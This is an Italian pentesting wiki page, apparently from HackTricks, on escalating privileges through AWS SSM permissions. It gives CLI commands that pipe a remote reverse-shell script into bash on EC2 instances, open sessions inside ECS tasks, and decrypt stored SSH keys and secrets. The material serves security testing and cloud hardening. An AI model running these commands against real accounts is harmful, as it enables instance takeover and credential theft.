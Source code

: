 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Per ulteriori informazioni su SSM controlla:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

Un attaccante con il permesso **`ssm:SendCommand`** può **eseguire comandi nelle istanze** che eseguono l'Amazon SSM Agent e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Nel caso in cui tu stia utilizzando questa tecnica per elevare i privilegi all'interno di un'istanza EC2 già compromessa, potresti semplicemente catturare la rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 attaccati a istanze in esecuzione con SSM Agents in esecuzione.

### `ssm:StartSession`

Un attaccante con il permesso **`ssm:StartSession`** può **avviare una sessione simile a SSH nelle istanze** che eseguono l'Amazon SSM Agent e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Per avviare una sessione è necessario avere installato il **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 associati alle istanze in esecuzione con SSM Agents attivi.

#### Privesc a ECS

Quando le **attività ECS** vengono eseguite con **`ExecuteCommand` abilitato**, gli utenti con permessi sufficienti possono utilizzare `ecs execute-command` per **eseguire un comando** all'interno del contenitore.\
Secondo [**la documentazione**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), questo avviene creando un canale sicuro tra il dispositivo utilizzato per avviare il comando “_exec_” e il contenitore di destinazione con SSM Session Manager. (Plugin SSM Session Manager necessario affinché questo funzioni)\
Pertanto, gli utenti con `ssm:StartSession` saranno in grado di **ottenere una shell all'interno delle attività ECS** con quell'opzione abilitata semplicemente eseguendo:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Impatto Potenziale:** Privesc diretto ai ruoli `ECS`IAM allegati ai task in esecuzione con `ExecuteCommand` abilitato.

### `ssm:ResumeSession`

Un attaccante con il permesso **`ssm:ResumeSession`** può ri-**avviare una sessione simile a SSH nelle istanze** che eseguono l'Amazon SSM Agent con uno stato di sessione SSM **disconnesso** e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 attaccati a istanze in esecuzione con agenti SSM in esecuzione e sessioni disconnesse.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaccante con i permessi menzionati sarà in grado di elencare i **parametri SSM** e **leggerli in chiaro**. In questi parametri puoi frequentemente **trovare informazioni sensibili** come chiavi SSH o chiavi API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei parametri.

### `ssm:ListCommands`

Un attaccante con questo permesso può elencare tutti i **comandi** inviati e sperare di trovare **informazioni sensibili** in essi.
```
aws ssm list-commands
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle righe di comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaccante con questi permessi può elencare tutti i **comandi** inviati e **leggere l'output** generato sperando di trovare **informazioni sensibili** in esso.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno dell'output delle righe di comando.

### Codebuild

Puoi anche utilizzare SSM per accedere a un progetto codebuild in fase di costruzione:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

